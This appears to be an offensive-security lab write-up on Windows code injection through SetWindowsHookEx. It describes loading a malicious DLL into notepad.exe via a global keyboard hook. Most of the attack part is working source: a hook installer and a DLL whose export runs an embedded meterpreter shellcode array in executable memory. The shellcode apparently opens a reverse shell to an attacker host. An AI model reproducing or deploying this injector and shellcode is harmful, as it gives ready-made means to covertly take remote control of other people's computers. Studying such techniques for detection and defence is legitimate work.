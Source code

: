 # SetWindowHookEx Code Injection

Windows allow programs to install hooks to monitor various system events such as mouse clicks and keyboard key presses by using `SetWindowHookEx`.

In this lab `SetWindowHookEx` is used to inject a malicious DLL into notepad.exe, which then executes  meterpreter shellcode.

## Overview

The workflow of the technique is as follows:

1. Create a malicious DLL that exports one function, which when invoked, executes meterpreter shellcode
2. Create another program that loads the malicious binary by:
   1. Resolving address of the exported function
   2. Installing a keyboard hook. The hook is then pointed to the exported function
3. Notepad.exe is launched by the victim and a keypress is registered
4. Since keyboard events are hooked, notepad.exe loads in our malicious dll and invokes the exported function
5. Metepreter session is established on the attacking system

## Execution

Let's create a DLL with an export a function `spotlessExport` that executes meterpreter shellcode when invoked:

![](<../../.gitbook/assets/Annotation 2019-05-28 220920.png>)

Compile the DLL and check if the export was successful. We can use `dumpbin.exe` to do this, but first we need to find it (if we have Visual Studio installed):

```csharp
cmd /c dir /s/b c:\dumpbin*
```

![](<../../.gitbook/assets/Annotation 2019-05-28 221427.png>)

Then use it like so to dump the exported functions:

```
dumpbin.exe dllhook.dll /exports
```

Below shows the output of exported functions for `dllhook.dll` as presented by `CFF Explorer` (left) and dumpin:

![](<../../.gitbook/assets/Annotation 2019-05-28 221340.png>)

## Demo

Below shows the technique in action:

* Process Explorer (top right) with notepad (bottom right) selected
* In the middle - the code that installs the hook to all threads that are in the same desktop as the calling thread
* Attacking system with multi-handler on the left - ready to catch the meterpreter
* Once the hook is installed and a key is pressed in when notepad is in focus, `dllhook.dll` is loaded into `notepad.exe` process and our malicious exported function `exportedSpotless` is executed, which in turn results in a meterpreter shell

![](../../.gitbook/assets/hookdll.gif)

## Code

Both `hooks.cpp` and `dllhook.cpp` are provided below:

{% tabs %}
{% tab title="hooks.cpp" %}
```cpp
#include "pch.h"
#include <iostream>
#include <Windows.h>

int main()
{
	HMODULE library = LoadLibraryA("dllhook.dll");
	HOOKPROC hookProc = (HOOKPROC)GetProcAddress(library, "spotlessExport");

	HHOOK hook = SetWindowsHookEx(WH_KEYBOARD, hookProc, library, 0);
	Sleep(10*1000);
	UnhookWindowsHookEx(hook);

	return 0;
}
```
{% endtab %}

{% tab title="dllhook.cpp" %}
```cpp
#include "stdafx.h"

BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
	case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}

extern "C" __declspec(dllexport) int spotlessExport() {
	unsigned char shellcode[] = "\xfc\x48\x83\xe4\xf0\xe8\xcc\x00\x00\x00\x41\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x66\x81\x78\x18\x0b\x02\x0f\x85\x72\x00\x00\x00\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b\x12\xe9\x4b\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\x0a\x00\x00\x05\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x41\x5e\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x85\xc0\x74\x0a\x49\xff\xce\x75\xe5\xe8\x93\x00\x00\x00\x48\x83\xec\x10\x48\x89\xe2\x4d\x31\xc9\x6a\x04\x41\x58\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7e\x55\x48\x83\xc4\x20\x5e\x89\xf6\x6a\x40\x41\x59\x68\x00\x10\x00\x00\x41\x58\x48\x89\xf2\x48\x31\xc9\x41\xba\x58\xa4\x53\xe5\xff\xd5\x48\x89\xc3\x49\x89\xc7\x4d\x31\xc9\x49\x89\xf0\x48\x89\xda\x48\x89\xf9\x41\xba\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58\x41\x57\x59\x68\x00\x40\x00\x00\x41\x58\x6a\x00\x5a\x41\xba\x0b\x2f\x0f\x30\xff\xd5\x57\x59\x41\xba\x75\x6e\x4d\x61\xff\xd5\x49\xff\xce\xe9\x3c\xff\xff\xff\x48\x01\xc3\x48\x29\xc6\x48\x85\xf6\x75\xb4\x41\xff\xe7\x58\x6a\x00\x59\x49\xc7\xc2\xf0\xb5\xa2\x56\xff\xd5";

	void *exec = VirtualAlloc(0, sizeof shellcode, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
	memcpy(exec, shellcode, sizeof shellcode);
	((void(*)())exec)();
	
	return 0;
}
```
{% endtab %}
{% endtabs %}

## References

{% embed url="https://docs.microsoft.com/en-us/windows/desktop/api/winuser/nf-winuser-setwindowshookexa" %}

{% embed url="https://docs.microsoft.com/en-us/cpp/build/exporting-from-a-dll-using-declspec-dllexport?view=vs-2019" %}
